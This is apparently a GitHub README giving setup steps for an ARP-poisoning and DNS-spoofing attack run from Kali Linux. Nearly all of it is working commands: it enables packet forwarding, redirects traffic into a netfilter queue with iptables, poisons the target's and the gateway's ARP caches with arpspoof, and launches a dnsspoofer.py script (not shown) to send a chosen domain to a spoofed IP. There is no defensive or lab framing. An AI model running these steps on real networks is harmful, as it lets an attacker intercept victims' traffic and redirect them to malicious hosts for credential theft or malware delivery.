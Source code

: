 *****Set Up the Environment*****:

Ensure both your Kali machine and the target computer are connected to the same network.

1-- This allows your Kali machine to forward packets between the target and the gateway.
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
2 -- Use iptables to redirect DNS traffic to the netfilterqueue that your script will process.

```sh
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```
3 -- Run arpspoof to poison the ARP cache of the target and the gateway.

```sh
sudo arpspoof -i [interface] -t [target_ip] [gateway_ip]
sudo arpspoof -i [interface] -t [gateway_ip] [target_ip]
```
4 -- Now, you can run your DNS spoofer script on your Kali machine.
```python3
sudo python3 dnsspoofer.py [target_domain] [spoofed_ip]
```
